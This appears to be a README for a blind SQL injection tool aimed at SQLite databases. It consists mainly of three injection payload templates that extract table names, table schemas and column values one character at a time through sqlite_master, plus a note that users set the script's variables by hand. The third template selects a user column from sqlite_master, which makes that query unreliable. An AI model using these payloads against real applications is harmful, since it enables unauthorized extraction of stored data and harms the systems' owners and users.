 __________SQLiteBLINDInjection__________
Blind SQL Injection For SQLite Databases

https://github.com/aykutcanustun
Author: aykutcanustun
__________________________________________________________________________________________________________
How to set queries:
To retrieve table names from database, use this one:
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} --

To retrieve table schema, use this one:
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

To retrieve values inside column, use this one:
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

Replace $TABLE_NAME, $COLUMN_NAME with data that you retrieved from privious one!
___________________________________________________________________________________________________________

For using script, you have to set varibles manually!
